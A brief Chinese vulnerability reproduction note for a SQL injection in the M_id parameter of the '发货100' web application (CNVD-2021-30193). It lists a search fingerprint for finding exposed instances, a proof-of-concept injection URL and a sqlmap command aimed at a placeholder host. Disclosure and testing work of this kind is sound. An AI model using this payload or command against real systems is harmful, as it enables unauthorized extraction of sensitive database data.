 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>发货100</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1420424513"</a-checkbox></br>

## 漏洞复现

主页面如下



![img](../../../.vuepress/public/img/image-20210602204745265.png)



使用POC



```plain
/?M_id=1%27&type=product
```



![img](../../../.vuepress/public/img/image-20210602204842198.png)



数据库出现报错, 使用Sqlmap注入



```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```



![img](../../../.vuepress/public/img/image-20210602233608318.png)